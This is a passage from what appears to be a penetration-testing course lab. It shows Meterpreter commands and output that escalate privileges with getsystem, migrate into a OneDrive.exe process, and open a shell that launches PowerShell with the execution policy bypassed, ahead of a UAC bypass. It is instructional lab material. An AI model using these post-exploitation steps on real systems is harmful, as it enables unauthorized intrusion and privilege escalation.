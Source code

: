 In the previous section, we migrated our Meterpreter shell to a **OneDrive.exe** process that is running at (presumably) medium integrity. For this section, let's repeat the steps from the previous section and then bypass UAC with a Metasploit post-exploitation module to obtain a session in the context of a high integrity level process.

As before, we connect to the bind shell on port 4444 on ITWK01, download and execute **met.exe**, and enter **getsystem** to elevate our privileges. Then, we use **ps** to identify the process ID of **OneDrive.exe** and **migrate** to it.

```
meterpreter > getsystem
...got system via technique 5 (Named Pipe Impersonation (PrintSpooler variant)).

meterpreter > ps

Process List
============

 PID    PPID  Name                         Arch  Session  User                          Path
 ---    ----  ----                         ----  -------  ----                          ----
...
 8044   3912  OneDrive.exe                 x64   1        ITWK01\offsec                 C:\Users\offsec\AppData\Local\Microsoft\OneDrive\OneDrive.exe
...

meterpreter > migrate 8044
[*] Migrating from 9020 to 8044...
[*] Migration completed successfully.

meterpreter > getuid
Server username: ITWK01\offsec
```

> Listing 66 - Migrate to OneDrive process of the user *offsec*

Listing 66 shows that we are now running in the context of *offsec* again. While this is an administrative account, UAC prevents us from performing administrative operations as we learned in previous Modules. Before we attempt to bypass UAC, let's confirm that the current process has the integrity level *Medium*.

To display the integrity level of a process, we can use tools such as [*Process Explorer*](https://docs.microsoft.com/en-us/sysinternals/downloads/process-explorer) or third-party PowerShell modules such as [*NtObjectManager*](https://www.powershellgallery.com/packages/NtObjectManager/1.1.33). Let's assume the latter is already installed on the system.

Once we import the module with [*Import-Module*](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/import-module?view=powershell-7.2), we can use [*Get-NtTokenIntegrityLevel*](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/blob/main/NtObjectManager/NtTokenFunctions.ps1) to display the integrity level of the current process by retrieving and reviewing the assigned access token.

```
meterpreter > shell
Process 6436 created.
Channel 1 created.
Microsoft Windows [Version 10.0.22000.795]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> powershell -ep bypass
powershell -ep bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Windows\system32> Import-Module NtObjectManager
Import-Module NtObjectManager
```